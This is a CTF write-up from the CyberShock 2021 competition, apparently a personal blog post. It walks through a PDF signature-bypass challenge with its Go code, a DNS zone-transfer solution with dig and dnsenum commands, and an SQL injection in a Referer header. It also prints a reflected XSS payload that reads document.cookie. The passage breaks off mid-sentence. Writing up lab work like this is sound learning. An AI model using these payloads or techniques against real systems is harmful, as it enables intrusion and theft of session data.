


# CyberShock 2021 - CTF Write-Up

.png>)

[CyberShock 2021](https://cybershock.lv) is a cyber security conference organized by [CERT.LV](https://cybershock.lv/#ctf), which included a jeopardy & infrastructure takeover style CTF, I only managed to participate in the CTF and missed the talks, but nonetheless was a good experience for me, as of it being my first CTF.

## The CTF

Overall our team, HostTakeover (CTF-TEAM-017 due to some mistake), was able to score 17th place, completing 14/27 challenges.


There were 3 difficulties, bronze, silver, and gold, unfortunately, we only solved the bronze and silver difficulty



This won't be a complete write-up, but I will share the challenge descriptions and my and my team's approach to the challenges.

For some context, some CTF challenges were accessible through the internal network and every team had their batch of Kali machines accessible through the browser, using a nifty program called "Guacamole" ([Tutorial for "Kali In The Browser"](https://www.kali.org/docs/general-use/guacamole-kali-in-browser/)).

### Gold

These challenges were the most interesting ones, but certainly, the hardest, because we couldn't manage to solve them, but will post my approach to these and the challenge descriptions, just because.

#### HACKED ACCOUNT (UNSOLVED)

```
DESCRIPTION
Our highly secure file validation application using digital signatures has been abused.
An attacker managed to upload an illegitimate file containing his bank account details and money was transferred there.
We are unaware how this could have happened since after the file upload, the account details are verified and automatic transfers are done only on re-uploaded verified signed documents.
We have provided you with code samples from our system, help us track down this issue.
We have added a check in our development server to look for the phrase "broken", which should replace the bank account number line in the signed document.

QUESTION
Generate and submit a pdf file, with the IBAN: broken that passes all the checks.

Code sample of the application: http://10.195.165.94/cryptography/enc3/code_snippets

Development server: http://10.17.32.136:9000
```

I was not able to this challenge in time and possibly went the wrong path.

The challenge's objective was to bypass the signing process for a PDF by using an invalid account (`broken`), the solution to this problem was by just having the `broken` bank account on the second page and performing a hash collision attack.

**Attempting the challenge**

My approach to this was trying to do a [length extension attack](https://en.wikipedia.org/wiki/Length_extension_attack), I understood how the attack worked but didn't realize this attack was not really applicable to this challenge, because of the way of preparing the file for signing,

First I need to encrypt the following text file

```
Invoice ID: 1337

IBAN: 
GB29NWBK60161331926825

Service: Money Transfer
```

then convert it to a PDF

```
cat file.txt | enscript -B -o - | ps2pdf - legitimate.pdf
```

From re-checking my methodology and remembering how the code worked, the attack was just not logical, where the bank account was checked using a regex and I couldn't get the signature I needed (maybe didn't know how to).

**Solution**

Challenge code:

```go
//We usually generate PDF files for testing with 'cat file.txt | enscript -B -o - | ps2pdf - legitimate.pdf'
//file.txt contents are
/*
Invoice ID: 1337

IBAN: 
GB29NWBK60161331926825

Service: Money Transfer
*/


func processFile(w http.ResponseWriter, r *http.Request) {
    var buf bytes.Buffer
    r.ParseMultipartForm(10 << 20)
    file, handler, err := r.FormFile("FileToSign")
    if err != nil {
        fmt.Println("Error Retrieving the File")
        fmt.Println(err)
        return
    }
    fileContents, err := ioutil.ReadAll(file)
    defer file.Close()

    fmt.Printf("Uploaded File: %+v\n", handler.Filename)
    fmt.Printf("File Size: %+v\n", handler.Size)
    fmt.Printf("MIME Header: %+v\n", handler.Header)


    todo := r.FormValue("action")
    if todo == "sign" {

        filename := filepath.Base(handler.Filename) + ".content.check"


        // write the whole body at once
        err = ioutil.WriteFile(filename, fileContents, 0644)
        if err != nil {
            panic(err)
            return
        }

        BAcheck, err := checkBankAccount(filename, false)
        e := os.Remove(filename) 
        if e != nil { 
            log.Fatal(e) 
        } 
        if err != nil {
            fmt.Fprintf(w, "Not a valid PDF file\n")
        }
        if BAcheck == "verified" {

            hash := md5.New()
            byteReader := bytes.NewReader(fileContents)

            if _, err := io.Copy(hash, byteReader); err != nil {
                log.Fatal("Unable to get hash")
            }
            hashInBytes := hash.Sum(nil)[:16]
            signedMessage, err := SignatureRSA(hashInBytes)
            if err != nil {
                log.Fatalln(err)
                return
            }


            if _, err := buf.Write(fileContents); err != nil {
                log.Fatal(err)
                return
            }

            if _, err := buf.Write(signedMessage); err != nil {
                log.Fatal(err)
                return
            }

            filename = filepath.Base(handler.Filename) + ".signed"

            w.Header().Set("Content-Disposition", "attachment; filename=" + filename)
            w.Header().Set("Content-Type", r.Header.Get("Content-Type"))
            bReaderDown := bytes.NewReader(buf.Bytes())
            io.Copy(w, bReaderDown)

        } else {
            fmt.Fprintf(w, "Bank account check failed\n")
        }

    } else if todo == "validate" {
        if len(string(fileContents)) > 256 {
            byteReader := bytes.NewReader(fileContents)
            buf := make([]byte, 256)
            start := byteReader.Len() - 256
            n, _ := byteReader.ReadAt(buf, int64(start))
            signatureBytes := buf[:n]

            byteReader2 := bytes.NewReader(fileContents)
            buf2 := make([]byte, byteReader2.Len() - 256)
            n2, _ := byteReader2.ReadAt(buf2, 0)
            contentBytes := buf2[:n2]

            byteReader3 := bytes.NewReader(contentBytes)
            hash := md5.New()
            if _, err := io.Copy(hash, byteReader3); err != nil {
                log.Fatal("Unable to get hash")
            }
            hashInBytes := hash.Sum(nil)[:16]

            if VerifyRSA(hashInBytes, signatureBytes) {
                filename := filepath.Base(handler.Filename) + ".content.verify"
                err = ioutil.WriteFile(filename, contentBytes, 0644)
                if err != nil {
                    panic(err)
                    return
                }

                BAcheck, err := checkBankAccount(filename, true)
                e := os.Remove(filename) 
                if e != nil { 
                    log.Fatal(e) 
                } 
                if err != nil {
                    fmt.Fprintf(w, "Not a valid PDF file\n")
                }
                if BAcheck == "verified" {
                    fmt.Fprintf(w, "Money transfer made to the respective bank account.")
                } else if BAcheck == "getflag" {
                    flag, _ := ioutil.ReadFile("flag")
                    if err == nil {
                        fmt.Fprintf(w, "Money transfer made to the respective bank account. FLAG: " + string(flag))
                    } else {
                        fmt.Fprintf(w, "Flag file not present")
                    }
                } else {
                    fmt.Fprintf(w, "Bank account check failed\n")
                }
            } else {
                fmt.Fprintf(w, "Money transfer denied, invalid signature\n")
            }
        } else {
            fmt.Fprintf(w, "File too small to have a signature\n")
        }

    } else {
        fmt.Fprintf(w, "You need to provide action sign or validate\n")
    }
}

func checkBankAccount(path string, issigned bool) (string, error) {
    f, r, err := pdf.Open(path)
    defer func() {
        _ = f.Close()
    }()
    if err != nil {
        return "", err
    }
    totalPage := r.NumPage()

    for pageIndex := 1; pageIndex <= totalPage; pageIndex++ {
        p := r.Page(pageIndex)
        if p.V.IsNull() {
            continue
        }

        rows, _ := p.GetTextByRow()
        for _, row := range rows {
            i := 0
            for _, word := range row.Content {
                if i == 2 {
                    if issigned == false {
                        r, _ := regexp.Compile(`^GB\d{2}\s?([0-9a-zA-Z]{4}\s?){4}[0-9a-zA-Z]{2}$`)                          
                        match := r.FindString(word.S)
                        //Whitelist bank account number, so we don't accidentally transfer to wrong people
                        if match == "GB29NWBK60161331926825" {
                            return "verified", nil
                        }   
                    } else if issigned == true {
                        r, _ := regexp.Compile(`(^broken$|^GB\d{2}\s?([0-9a-zA-Z]{4}\s?){4}[0-9a-zA-Z]{2}$)`)
                        match := r.FindString(word.S)
                        //Check if those incident responders managed to find the flaw in our code
                        if match == "broken" {
                            return "getflag", nil
                        } else if match == "GB29NWBK60161331926825" {
                            return "verified", nil
                        }
                    }
                }
                i = i + 1
            }
        }
    }
    return "", nil
}
```

A quick explanation of how the program works, where I excluded some parts to understand it better.

1. Bypass the signing process
2. Bypass the validation process
3. Get the flag

**Signing process**

When signing the document, this part of the code is executed

```go
// checkBankAccount
if issigned == false {                                      // [[ IF: SIGNING ]]

    r, _ := regexp.Compile(`^GB\d{2}\s?([0-9a-zA-Z]{4}\s?){4}[0-9a-zA-Z]{2}$`)                          
    match := r.FindString(word.S)

    if match == "GB29NWBK60161331926825" {                  // RETURN: Verified if bank account
        return "verified", nil
    }  
}
```

document is signed

```go
if todo == "sign" {

    filename := filepath.Base(handler.Filename) + ".content.check"  // legitimate.pdf.content.check

    // write the whole body at once
    err = ioutil.WriteFile(filename, fileContents, 0644)            // Write the contents to a different file

    BAcheck, err := checkBankAccount(filename, false)               // Bank account check
    e := os.Remove(filename)                                        // Remove the file

    if BAcheck == "verified" {                                      // IF: Bank account check returns verified

        hash := md5.New()                                           // Hash algo: MD5
        byteReader := bytes.NewReader(fileContents)                 // Read the fileContents in bytes


        hashInBytes := hash.Sum(nil)[:16]                           // 16 bytes of nil
        signedMessage, err := SignatureRSA(hashInBytes)             // Signed message: SignatureRSA(hashInBytes) 

        filename = filepath.Base(handler.Filename) + ".signed"      // new filename = legitimate.pdf.signed
        // Sends back the file
    } else {                                                        // ELSE: Bank account check failed
        fmt.Fprintf(w, "Bank account check failed\n")
    }
}
```

After the document has been signed with a valid signature, it can be validated

```go
// 2. Validate
if todo == "validate" {                                    // [[ Validation process ]]

    if len(string(fileContents)) > 256 {                            // IF: file content length > 256

        byteReader := bytes.NewReader(fileContents)                 // Read in the fileContents in bytes
        buf := make([]byte, 256)                                    // 256 byte buffer
        start := byteReader.Len() - 256                             // PDF 256 byte prefix??
        n, _ := byteReader.ReadAt(buf, int64(start))                // Determine how much to read -> n
        signatureBytes := buf[:n]                                   // SignatureBytes are from the start of the buffer to n

        byteReader2 := bytes.NewReader(fileContents)
        buf2 := make([]byte, byteReader2.Len() - 256)               // Buffer 2 starts at the conets of the file
        n2, _ := byteReader2.ReadAt(buf2, 0)                        // Reading at the start of the buffer
        contentBytes := buf2[:n2]                       

        byteReader3 := bytes.NewReader(contentBytes)                // byteReader3

        hash := md5.New()                                           // Hash algo: hash -> MD5
        hashInBytes := hash.Sum(nil)[:16]                           // Empty 16 byte hash

        if VerifyRSA(hashInBytes, signatureBytes) {                             // IF: signatureBytes is a valid RSA
            filename := filepath.Base(handler.Filename) + ".content.verify"     // legitimate.pdf.content.check
            err = ioutil.WriteFile(filename, contentBytes, 0644)

            BAcheck, err := checkBankAccount(filename, true)                    // Need this to return "getflag"
            e := os.Remove(filename) 

            if BAcheck == "verified" {
                fmt.Fprintf(w, "Money transfer made to the respective bank account.")

            } else if BAcheck == "getflag" {
                flag, _ := ioutil.ReadFile("flag")
                fmt.Fprintf(w, "Money transfer made to the respective bank account. FLAG: " + string(flag))
            }
        }
    }
}
```

To get the flag, the `broken` needs to be there instead of the bank account

```go
// 3. Get flag
// - Check BA -> checkBankAccount()
} else if issigned == true {                                // [[ IF: VERIFYING ]]

    r, _ := regexp.Compile(`(^broken$|^GB\d{2}\s?([0-9a-zA-Z]{4}\s?){4}[0-9a-zA-Z]{2}$)`)
    match := r.FindString(word.S)

    if match == "broken" {                                  // RETURN: the flag
        return "getflag", nil

    } else if match == "GB29NWBK60161331926825" {
        return "verified", nil
    }
}
```

Before each check, it iterates through all pages

```go
   totalPage := r.NumPage()

    for pageIndex := 1; pageIndex <= totalPage; pageIndex++ {
        p := r.Page(pageIndex)

        rows, _ := p.GetTextByRow()
        for _, row := range rows {
            i := 0
            for _, word := range row.Content {
                if i == 2 {
                    [...]
                }
            }
        }
    }
```

So, to simply pass the challenge, both `broken` and `GB29NWBK60161331926825` needs to be present, first page containing `broken` and second `GB29NWBK60161331926825`, this way the signing is bypassed and can be validated to get the flag.

Not sure where, but the MD5 hash collision was also mentioned by the participant who solved this challenge.

#### E CORP (UNSOLVED)

```
DESCRIPTION
E CORP is back, there are members from fsociety that pointed out IP address of a server that could hide important information on "Whiterose".

QUESTION
Can You Hack E CORP?
http://10.17.32.138
```

Apparently, this challenge had issues, nobody, in the end, solved it and it had problems exploiting a vulnerability in this docker container, which was not configured properly.

The challenge had PHP strings on an endpoint that was vulnerable to a PHP deserialization attach.

#### DNS RECORDS (UNSOLVED) + Solution from a friendly participant

```
DESCRIPTION
Security researcher was inspecting traffic from compromised network.
Reviewing http, https, imap and ssh packets he was not able to find anything suspicious.
But after discussions with other security researchers, he decided to inspect DNS traffic.
To his surprise DNS requests and responses had very interesting artifacts from 2020.cboe DNS zone.
Try to find the flag from DNS server 10.195.165.113

QUESTION
Can you find the flag from DNS server?
```

All of us in the team was trying to solve this, but we couldn't get anywhere far, we tried enumerating this with some DNS tools like, `dnsrecon`, `dnsenum`, `dig`, `host` and `nslookup`.

I gained some knowledge on enumerating DNS, but couldn't solve the challenge with it, mostly I was trying to do a [DNS zone transfer attack](https://d00mfist.gitbooks.io/ctf/content/dns_zone_transfer_attack.html) on a lot of DNS servers I found.

Some of the commands I ran

```
root@env017.kali-103:/# nslookup                                                                                                                 
> server 198.41.0.4                                                                                                                              
Default server: 198.41.0.4                                                                                                                       
Address: 198.41.0.4#53                                                                                                                           
> set type=any
> 10.195.165.113                                                                                                                                             
Server:         198.41.0.4
Address:        198.41.0.4#53

Non-authoritative answer:
*** Can't find 113.165.195.10.in-addr.arpa.: No answer

Authoritative answers can be found from:
in-addr.arpa    nameserver = a.in-addr-servers.arpa.
in-addr.arpa    nameserver = b.in-addr-servers.arpa.
in-addr.arpa    nameserver = c.in-addr-servers.arpa.
in-addr.arpa    nameserver = d.in-addr-servers.arpa.
in-addr.arpa    nameserver = e.in-addr-servers.arpa.
in-addr.arpa    nameserver = f.in-addr-servers.arpa.
a.in-addr-servers.arpa  internet address = 199.180.182.53
b.in-addr-servers.arpa  internet address = 199.253.183.183
c.in-addr-servers.arpa  internet address = 196.216.169.10
d.in-addr-servers.arpa  internet address = 200.10.60.53
e.in-addr-servers.arpa  internet address = 203.119.86.101
f.in-addr-servers.arpa  internet address = 193.0.9.1
a.in-addr-servers.arpa  has AAAA address 2620:37:e000::53
b.in-addr-servers.arpa  has AAAA address 2001:500:87::87
c.in-addr-servers.arpa  has AAAA address 2001:43f8:110::10
d.in-addr-servers.arpa  has AAAA address 2001:13c7:7010::53
e.in-addr-servers.arpa  has AAAA address 2001:dd8:6::101
f.in-addr-servers.arpa  has AAAA address 2001:67c:e0::1
```

My teammate found a possible lead, but we couldn't get further

```
Brute forcing with /usr/share/dnsrecon/namelist.txt:                                                                                                                                                                                       
_____________________________________________________                                                                                                                                                                                                                                          
1.2020.cboe.                             604800   IN    CNAME             (                                                                                                                                                                
10.2020.cboe.                            604800   IN    CNAME             (
11.2020.cboe.                            604800   IN    CNAME             (
12.2020.cboe.                            604800   IN    CNAME             (
13.2020.cboe.                            604800   IN    CNAME             (
14.2020.cboe.                            604800   IN    CNAME             (
15.2020.cboe.                            604800   IN    CNAME             (
16.2020.cboe.                            604800   IN    CNAME             (
17.2020.cboe.                            604800   IN    CNAME             (
18.2020.cboe.                            604800   IN    CNAME             (
19.2020.cboe.                            604800   IN    CNAME             (
2.2020.cboe.                             604800   IN    CNAME             (
20.2020.cboe.                            604800   IN    CNAME             (
3.2020.cboe.                             604800   IN    CNAME             (
4.2020.cboe.                             604800   IN    CNAME             (
5.2020.cboe.                             604800   IN    CNAME             (
6.2020.cboe.                             604800   IN    CNAME             (
7.2020.cboe.                             604800   IN    CNAME             (
8.2020.cboe.                             604800   IN    CNAME             (
9.2020.cboe.                             604800   IN    CNAME             (
ftp.2020.cboe.                           604800   IN    A        10.20.30.10
imap.2020.cboe.                          604800   IN    CNAME    www.2020.cboe.
www.2020.cboe.                           604800   IN    A        10.20.10.13
ns.2020.cboe.                            604800   IN    A         127.0.0.1
owa.2020.cboe.                           604800   IN    A        10.30.10.11
pop.2020.cboe.                           604800   IN    CNAME    www.2020.cboe.
www.2020.cboe.                           604800   IN    A        10.20.10.13
relay.2020.cboe.                         604800   IN    CNAME    www.2020.cboe.
www.2020.cboe.                           604800   IN    A        10.20.10.13
server.2020.cboe.                        604800   IN    A        10.10.10.1
server1.2020.cboe.                       604800   IN    A        10.10.10.10
smtp.2020.cboe.                          604800   IN    CNAME    www.2020.cboe.
www.2020.cboe.                           604800   IN    A        10.20.10.13
w.2020.cboe.                             604800   IN    A        10.20.10.11
webmail.2020.cboe.                       604800   IN    A        10.30.10.12
ww.2020.cboe.                            604800   IN    A        10.20.10.12
www.2020.cboe.                           604800   IN    A        10.20.10.13
```

end of the road for this one.

**SOLUTION**

Update to this write-up, thanks to @Pasha on Discord who also participated in the CTF, DM'd me with the solution to this challenge. After reading his message I didn't realize that all of that just was the solution, at the end we were a few tiny steps away from the flag, which shows that's clearly we didn't try everything and that the solution to a CTF can even be literaly right in front of you. :)

**Step 1 - DNSENUM** Enumerate the `2020.cboe` DNS zone using `10.195.165.113` DNS server

```
dnsenum --noreverse --dnsserver 10.195.165.113 2020.cboe
```

Looks like we, apart from the challenge it self, we didn't check the tools we were using. 

.png>)

**Lesson learned** -> RTFM

**Step 2 - DNZ Zone Transfer** From the results, perform DNS zone transfer attack using dig (I think I was doing something wrong here before)

```
for i in {1..100}; do 
	dig +short @10.195.165.113 $i.2020.cboe. | sed 's/2020.cboe.//g;s/.//g'
done
```

* Remove every occurence of `2020.cboe.` and `.`

**Step 3 - CyberChef** Now there is all this junk (aka hex)

```
1f8b08000311a95f0003ed97e9371b08f7c733d38e3eaded747e7ddaa141a794e9a8aa7d09525555a362ab2a41c652514bad11846430ade9a8a50d554b84d652fb4ed1242a53a176aad624d5084988258b88044ffb2f3caf7e2f9e17f773eff7cd3df77bce3df79cfbd81962277f42f904000090b7bf79dd150038a2f3b5aefed7f7dfd863fb2d7d17e36a770dd0300a647f1547e1d68ed6004073b6acd4ef87affa78e44dcf18004081fc2dbea344bc0e0400142fd85fb7be1defcba57afa2f98fe081837f35058e62f1b763d519cb2f9f1f3a387472f50f26249a2a9d39e474fc8b29fd50d4b37d50080f3afbf36f1ff1ffe6b480b10b38dd9878e68a974b8312d09a38c27a1d14949d7b3258abcf4f5a3348147ddab11e30d6e57a11a02bc621c04461f7c485f02b3249c26fc82239219d0a54662a4bcd80b9edbdbdf59e5c14bcae90b4cc1d15bd4f241e27628ca8b889b9675443cff1c13c2a110cbd0d2dddde9fb91098b9b4f635863beeb1193f4fb9e5d0a63d107755a8c8a935975a343c9fb25d0fbc167eb4cdc6df4b615b140fa9ff20ccff01b9a98c8145f162112e4e1a6ea80e2965aa6e4862b19089e78f5775fd74994bd3232c846777bbdd6a5b95cb9ae7267616f3fcb1052597595b3dd491de1c7046df8eb6d8d9b5a45d38affca2f0cb9f4ae1a47b689490c5cf96bc4af2966395f9e59700019823c067f10b715a76fad327a60b8cebdbd3de8fdf8b3c023b2b6ac340db5b0be8eedbad33658cc6c30a5f8efd77364dad9072b1c4330c279b48d3a336b50f3c68997cdfcfe5638f3ff2aba97968c92313b9f35d6379f25e8768ab869c7be0cc9eced661912c7780d91aae3821ccf8398c3f1bb67d88cfdc7f1cdd521c73fc13f373fe4faa1549dadccdddbabc663f7f15bbdc301660a4c97d1b5a62ad8299460993fb3ca161224d309ad8db1e2ad167a6293bc2bebe60cd9de8a45805bd40ece2e3b399ec6d3c3f0bfe6d95b7208ece8069e54d0e9b6c999807fdcfa7e3865c82e3574d1eac248b8fef8b2f2bc12c8a24aa187c5004dee1a275c19c25fe4312a2cc545c98f69257fe517fd4a4615ac32287111d722640ee5951f5b0c26ecbfdf3eb8bae1b1ca2526ca9358412590fdf245bb6e55479efda625c3936022e616ab0a68517a1e667409f7366e60bb73ec35ad2b49fac0db6c3d761fab49c75b9a8a196b4d62f21f17a2adc625329203e39038a1e8905a965d72e7a6f85eda8308ca3f4e0ddd619a8807f713c7a0d2397df0aff36e5d059334ab40a5eef33fe8e88db4b5083273c552ffc22c06dc6c30d88d72efd694d79f22d5cfa19fa36e0a9f96e7bf1bb83aef3b87e696590c749dd9f30e618720547710a4aca2fcca8d09e3f82d283f6799ddec16287c2d2aa9f224748f7303292898c5dd71e12d3888197b22f49f8f2303063518ce979769468f6deea20a833235d5465517c5ad6b4dc20db0b49948f44ff4af34005b0585b2a8e12d3b5127dd1f02f1e7f926ffeaf0b867205ec1a92da5e74eda7a1c025b209c45d790b5c585c28f4ce7d1e8571ed9b56e9a08af39bf6b59fca8aca48a6ae994214d0c86c683b793c4654bedefbe78a040296529868437fb9c2438c36c75a0f602d0a0c93c7bcf7c2cf0a0da9bb2fcbe1a3a055c90118f27bf5a60813b5e06a8f56eefd9114472f0bc85a4a832fe3493c9886931d1eb828e0f8ec4797116c8759af51c498527d11431fe22d78e50616382eb7d03ee5280aef724773fcc50c7ee3faf51f4a5ff223478e9faf0963c9206c4cb4cbea9d64defd14601bbeb26a8990bdaae24a8eaf4750dc9aca2d68a56b8256fa252c1864e1a68561bf19b6662fb5f7cba51b59bbb540c4d4c26a283cfe9706525f60fbab5afbce0df54537705410d46a61326670a0f5417bd2983ca62e92841ae562bcee13e5f0fc39964fd0c03810c7de4d92e9b96af3c7d62e342a9e6c269468c6b26b1a7b4f5144125fc41d5e040e99e5b82d1a0baacb3225bff55f7607d8a63c4ceef03789f749c4349ffc8640f77723b4522a5e6d8ff3b6ff2d2e550d5badcf0cc7b5b77433a246d359f2a71fd8eda19a2c20f1e6a7d22f5aafae6c307bf14ee5a1ccc854ec4f32df5732a690fb9d61b9f5cda50c0c184a299fe43676b236243f374c2f8cc9639d1023148fbbc6f7c3740db5dcbac2aa15c7cf31974f60b5e40332874cf3aebc33a650825ef90042a726383bba9900e6ffeda86ff4aefde3fd61169deb82eabfcfa2e7cc0cec9646656eacf981991608841bd7119eac45341c5bb61b9d99dbeca707718fb6a9427fff70a835e2d12d46eb9b9b3aa4a0f39f2f84d98865278cdc9fce9a5359474aec557bc5a17c23030293142ebcacb95d717c5612c3216fd300672ab6f2f06f9075fcabc54546b40f3c02cde233742a82b13c6bb16e83b7aff365c582f2117bec233cb770c9c4cfca69cef289e3187277eac1e4e4f54838d0785455cab15870d1cd98ca39ac7e44576409ca9a2cd59972bcb9b0d649e4a01d137fad9c6cbdab39630a8765184a13e359eb472b824d1a0a6a63f356c182250a915c23c542117d9a1dbf5411307c2d74ccd9f6ed203154d54ce1f3b336220d43a32356c18e38dafe737bee4da2616d8c8c8e85b063ab061bf955f568b202579c275e5986f3b5c805499d64e9aa39589de5bf323c9edbab05c78749189db8c13dad86974dc38f86e0cf887ac2ab0127bdffcd04bbdd6c2e508165630948690b4c9b8737668dd6fccb10a726155f61b6cfd6a8badfead3d78c398238f4d13ebd2bf9a696c2077c05d9c36e38ae5177d3373c4109ce2a7ace4f0c78e48de4e2db3b2d5d6a09a4faffe708ca7ed6a52cfbe3ff6db1a8bdb1afbb61ac2aac3543a57b55eee637f49deef78a7a8b01cd8150f6596acec401bbb2d12f2f9cab3c1e53f4174c53bff18672b8810cd5eef0b10c53ed5adbebce47b3792bbb80128249b8ea01564638b346bb2fab54801237ebfffc6a14da51c3c39a5ae7304959f5deecb6c61e3bf2e0b8ab0d1a16f3a82ad252e7d202df19be0a2e990cff3bf6aa8bc505409294bd4709815f886e8e22741b5497b7db6aee9269d11744e021061b000189b7c97643a93821cab3ae6e82327f1bf365ad3bb8809a8e11518c549ada1ca908d529634cc74b5b65c92095c2e2d9b56dad426ac1fdb80ef3ddd548a30a942cba9389118fb2eee9e849e71a86c6714b64674f0c7289cf7d066e1be7ef490d00e198538fc682eeba62c1e283d38951bddaf5e16c96bdced599e8286ea4562da7bb4752fda3df385192f228a3e82d46908e8a0d6e5fa396a39cfc8b1c24084f56c8f6c27fd7d4342a0c72ff50d39a82e274d382bcde5ea920caf58dbc218f642753aaf74ee4670c1f20acfaf5d926a3ded2838cbad443dc7aad9d77242dbf840243b2718c2d617a2673a3ddde19f2e0677c471cf674ea6399b8a7bd69a901de8c6ecb4f3e57cc12f762d446248d7aa55754adba625ae23a86a8d5c1fc2e4afbe8763b852d0f17a9f457913185a6eedd2a73a0be1fcd520a7d5e60537deb95534dd29c6dcfe8cc77139d1f4716f8a65ce0128baa85eac6de4711e06bb60f469238d866a68a909aa41be1d7f21c9bab38983c89c75f498b116f3866a751fcd14577a4a0a93dae63e6626b1070ae3b0a9504c824a5cfcb9624cc065ccfb1e2924eceb84fa1af43c8a6e70fdbe9add33b2c2f331a6dd81a1a7c0b4dd0a530c43220b3ba4c2b2638a7f849f130b71d1e75b10a51492e9a541ef614ea41b25e28b4a1f78e8d086acd3101c13de3cabb4000e377f44d2cf79dfcacdef619bec69acd6b7bb4dd6f71e732d124e9393ebd5dff8504c3616e7b0e191c4879a4868500bbe2075aa8c4cd55f448d61eb6e6861eeb7960c9f420e1f549875c1c61fc546a9e4ce1cf0388b5112257778bb9157dbfcdf617b3aa0138fa45cc42c5a32e24ac0c204ca6389c9c0db3f43616e096d87530db1ebd252078aab15ea1a76a8f883aaa819376fd639813eb85dd934f22378a8313b7bf7f986b78ada205648c9b875b9d0ab0117aee348f278fe8ebb84532ac03f31f347de6c906bfc31de2a27cce9175133e992ab97ba2eb2175b9c711114975414678744f44b94a194b9dd8feefd9dd64f4557c34611d14fac64c0737f863bb514ca39a28d70e255fb09562b6d6c429cbe927a67b202e10c6937d753a10f7f97214dfc8dfb1395e837848b29c63eb74cdb364a7e1317b9b9d9480e1a42b1c8fb5778736e8df5697706a4a3f0b58b9640d759ab67866d2d4c6e3d7b7ac44b684a700065d76d838c7d62e73634ecda7d2064a1b791e6f2877b6e12d2f51778418c83d07bd45af2e7b0252485603525c0f5f540194b57151e75c0685ba2318e96191e3b8a7dea44f812f2cd881765390f84d423ca578a814f1c5fe1cf0477051ef7edab7da21ade57b95df7ac6c103f0f0c15f86d2a9e169477e23ea1ca2c9e7e01d5b0f8b9c336c175533f972ecdae7c3bd11a750a12d13c7ea562881e0de8c5649aafd70a33eaa52beb3b474e023e93ac5576a613f15d9815456a9e1fe0ea4b0549a2a41388ae3b24e9ac218f6f90548e02a4f0d76474062fa3d8cdd61893f1f10c19f007ce5c0e70eed1fff0ff0a7de043a9da9ddbe921733f691cfbfa4503ec6d21d71baefd9efa1f24287436900f0000
```

Every file has a signature at the start, it's first bites and from searching this exact signatures first bytes on the [file signature table](https://www.garykessler.net/library/file_sigs.html) or [this database](https://filesignatures.net/index.php?search=1F8B08\&mode=SIG), it reveals that this is a hex file



To turn this into an actual file [CyberChef](https://gchq.github.io/CyberChef/) can be used with "From Hex" and "Extract Files", but this didn't work for me, so I just did some Bash

```
cat garbage.hex | xxd -p -r | gunzip - > flag.png
```

FLAG SECURED!

#### PHP SHELL CODE (UNSOLVED)

```
DESCRIPTION
You have to investigate recent attack on your web server.
Since attackers were very skilled, they used specially designed PHP shell to access the server.
Your friends from Incident Response Department managed to get network capture file with malicious traffic.
Secret flag, which attackers used, is in PCAP file.
All evidences (including php shell code) are here: http://10.195.165.94/forensics/shell_code.zip
QUESTION
Can you decrypt web shell command responses?
```

Got nothing more from this one, we were not getting anywhere.

### Silver

Silver challenges were fun to do, which required some knowledge about the topics covered, but could have been enough with the basics. Topics covered were:

* SQL injections - exploiting a web app using a MySQL database
* API reverse engineering - finding a hidden
* Request smuggling - or not
* Local privilege escalation
* Password cracking
* Finding exploits
* Static analysis

#### SPACE INVADERS

I don't have the description of this challenge, but I do got some steps my teammate took, so the imagination is up to you. :)

**Web page **

After visiting the [web page](http://10.195.165.111) the user is redirected back to google

**Inspect source **

Viewing the page source code, users with `User-Agent: space` are only allowed to visit this page

**The game **

After having a bit of fun playing this to get the flag, we open up the source code again

```
view-source:http://10.195.165.111/js/space_invaders.app.js
```

Let's analyze.

```
var playerWon = scene.allInvadersKilled();
        if (playerWon) {
            scene.drawTextOverlay("YOU WON", "Congratulations " + game.player + "!");
           var img = new Image(); 
        var div = document.getElementById('alt');
        img.onload = function(){
            div.appendChild(img);
        } 
        img.src ="graphics/space.png";
        } else {
            scene.drawTextOverlay("GAME OVER", "Too bad... " + game.player);
        }
```

```
Link: http://10.195.165.111/graphics/space.png
```

Easy right?

**QR code image**

In this page, there is a QR code with a missing square in the corner.

**Fix & Scan** 

This square is on every QR code, so it just needs to be filled in with color and we have a valid QR code, from scanning it, we get the flag.

#### INJECTION

```
DESCRIPTION
You have found a login panel at https://10.17.32.95:1003,
You suspect there could be an SQL injection.
You have to find it and exploit it.
QUESTION
Find a SQL injection vulnerability in this web application and try to combine different injection methods to extract the flag from the database.
```

With the help of my teammate, I was able to solve this challenge, I'm not very familiar with SQLi (I should fix this), but `sqlmap` was a big help, but not at the start, because it** didn't test the headers properly**, I'm not sure if it actually tests them, but the injection was in the `Referer` HTTP header of the login form.

Sidenote: Not sure how and why, but I found an XSS (I think) 


* Payload: `https://10.17.32.95:1003/index.php//"><script><script>alert(document.cookie)</script><`

At first, I was trying everything and overanalyzing, which wasted my time, because after the login attempt the server redirects the user to a link appending `?error` which I was focused on exploiting a possible SQLi (spoiler, there was none).

Later a `dashboard.php` file was found, which container and another SQLi

```
